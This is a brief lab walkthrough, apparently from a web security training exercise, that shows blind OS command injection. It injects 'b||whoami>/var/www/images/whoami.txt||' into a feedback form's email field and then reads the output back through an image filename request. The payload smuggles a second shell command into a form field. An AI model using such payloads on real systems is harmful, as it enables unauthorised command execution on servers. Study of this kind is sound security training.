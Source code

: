 Intercept the request using `BurpSuite` and then `Modify` the request that submits feedback:

Modify the email address changing it to:
```
b||whoami>/var/www/images/whoami.txt||
```
Next, intercept the request that contains an image and change the filname to whoami.txt in the request:
```
GET /image?filename=whoami.txt HTTP/1.1
```
